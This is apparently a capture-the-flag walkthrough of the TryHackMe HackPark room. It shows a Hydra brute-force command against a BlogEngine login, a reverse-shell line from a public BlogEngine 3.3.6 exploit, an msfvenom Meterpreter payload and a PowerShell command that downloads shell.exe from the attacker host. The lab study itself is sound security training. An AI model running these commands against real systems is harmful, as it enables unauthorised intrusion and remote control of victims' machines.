




# HackPark 

## Enumeration

I kicked off Enumeration on this particular target by running Rustscan on the target. 

```
rustscan -a $machine_IP -- -A -sV -sC -vv                                                                                                                    
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:80
Open $machine_IP:3389

PORT     STATE SERVICE            REASON  VERSION
80/tcp   open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
|_http-title: hackpark | hackpark amusements
|_http-server-header: Microsoft-IIS/8.5
3389/tcp open  ssl/ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
```

Navigating to the $machine_IP on port 80 reveals a standard blog entry page. On the right-hand side menu of the webpage, there is a login prompt. This leads us to a `blogengine.net` login form and I attempt default credentials and intercept this request in order to fuzz and brute force with Hydra. 

Once I identified the login page to attack, next up is working out what type of request the form is making to the webserver. Webservers typically, make two types of requests
1. GET Request - requests data **from** a webserver
2. POST Request - sends data **to** a webserver

I was able to verify what type of request the login form was making my Inspecting the Element and picking up the appropriate value in the `method` field. 




Bruteforcing with Hydra requires valid parameters for URL, Form Parameters and login error message. To achieve this I ran an authentication request through Burp Suite. Having become much more familiar with Burp Suite since completing this room, I would default to using Burp Intruder for bruteforcing and fuzzing login fields. However, in this case, I was able to successfully do this via Hydra.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $machine_IP http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE= <VIEWSTATE> 24LoginUser%24UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login Failed"
```



Having cracked the password, I was able to utilize a authenticated Directory Traversal RCE on BlogEngine 3.3.6 through [ExploitDB](https://www.exploit-db.com/exploits/46353). The attack involves setting the TCP Client address and port to the attack machine which has a reverse listener (netcat in this case) waiting in place to pick up the reverse shell. 

I then changed the IP and port to fit, renamed the file to `PostView.ascx` as this is a pre-requisite in the exploit, and uploaded it to the target webserver which was picked up by my netcat listener and I promptly received a reverse shell. 

```
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("$_IP", 443))
```





## Privilege Escalation

My initial reverse shell gave me a standard command-line prompt and for the purposes of this room, I upgraded to a Meterpreter shell for ease of access. For this step, I follow my regular process of setting up a `reverse_tcp` payload and picking it up with a Metasploit `/multi/handler` module. 

I start off by opening Metasploit and setting `shell_reverse_tcp` as the payload in `/multi/handler`. 

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

Meanwhile, I generate the Msfvenom payload, pointing my THM IP as `LHOST` and an appropriate `LPORT` and saving it as an `.exe` file. 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=THM_IP LPORT=9999 -f exe > shell.exe
```

Then I send it over to the client and `/multi/handler` picks up the connection. 

```
c:\Windows\Temp>
powershell "(New-Object System.Net.WebClient).DownloadFile('http://THM_IP:8000/shell.exe','shell.exe')"
```

The shell sticks and I get a Meterpreter shell. 